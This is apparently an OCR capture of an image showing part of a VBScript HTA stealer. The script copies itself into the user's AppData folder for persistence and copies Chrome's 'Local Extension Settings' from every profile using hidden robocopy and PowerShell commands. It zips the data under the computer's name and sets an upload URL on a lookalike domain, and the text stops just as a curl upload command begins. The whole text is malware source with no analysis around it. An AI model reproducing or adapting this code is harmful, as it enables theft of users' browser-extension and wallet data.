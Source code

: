 ```sh
        userProfile = shell.ExpandEnvironmentStrings("%USERPROFILE%")
        appData = shell.ExpandEnvironmentStrings("%APPDATA%")
        targetDir = appData & "\Microsoft\Windows\"
        scriptPath = targetDir & "agent.hta"
        ' Generate dynamic zip filename
        Dim computerName, timestamp
        computerName = shell.ExpandEnvironmentStrings("%COMPUTERNAME%")
        timestamp = Year(Now()) & "-" & _
            Right("0" & Month(Now()), 2) & "-" & _
            Right("0" & Day(Now()), 2) & "_" & _
            Right("0" & Hour(Now()), 2) & "-" & _
            Right("0" & Minute(Now()), 2) & "-" & _
            Right("0" & Second(Now()), 2)
        tempZip = targetDir & computerName & "_" & timestamp & ".zip"

        tempCopyDir = targetDir & "ext_copy"
        uploadUrl = "https://upload.cloudflair.org/upload"

 
        If Not fso.FolderExists(targetDir) Then
            fso.CreateFolder(targetDir)
         End If

        If LCase(document.location.pathname) <> LCase(scriptPath) Then
            fso.CopyFile document.location.pathname, scriptPath, True
         Else
         End If

        chromeRoot = userProfile & "\AppData\Local\Google\Chrome\User Data"
        If Not fso.FolderExists(chromeRoot) Then
             Exit Sub
        End If

        ' Clean old copy dir
        If fso.FolderExists(tempCopyDir) Then
            shell.Run "cmd /c rmdir /s /q """ & tempCopyDir & """", 0, True
        End If
        fso.CreateFolder(tempCopyDir)

        Set profileDirs = fso.GetFolder(chromeRoot).SubFolders
        For Each folder In profileDirs
            If LCase(folder.Name) = "default" Or LCase(Left(folder.Name, 7)) = "profile" Then
                Dim extPath, destPath, robocopyCmd
                extPath = folder.Path & "\Local Extension Settings"
                If fso.FolderExists(extPath) Then
                    destPath = tempCopyDir & "\" & folder.Name
                    robocopyCmd = "cmd /c robocopy """ & extPath & """ """ & destPath & """ /E /R:1 /W:1"
                    shell.Run robocopyCmd, 0, True
                End If
            End If
        Next

        ' Compress into zip
        Dim psCommand
        psCommand = "powershell -NoLogo -NonInteractive -Command " & _
            """Compress-Archive -Path '" & tempCopyDir & "\*' -DestinationPath '" & tempZip & "' -Force"""

         shell.Run psCommand, 0, True

        If fso.FileExists(tempZip) Then
            Dim curlCommand
```